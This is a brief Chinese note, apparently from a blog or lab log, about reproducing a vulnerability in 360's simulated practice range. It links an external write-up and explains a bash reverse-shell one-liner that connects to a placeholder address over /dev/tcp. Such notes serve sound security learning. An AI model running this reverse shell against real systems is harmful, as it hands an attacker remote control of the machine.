之前在360众测的仿真实战靶场中碰到的

漏洞复现比较简单，参见如下文章：  
https://www.cnblogs.com/mke2fs/p/12718499.html

其中，对反弹shell的命令做一下解释：  
`
bash -i >& /dev/tcp/x.x.x.x/8080 0>&1
`
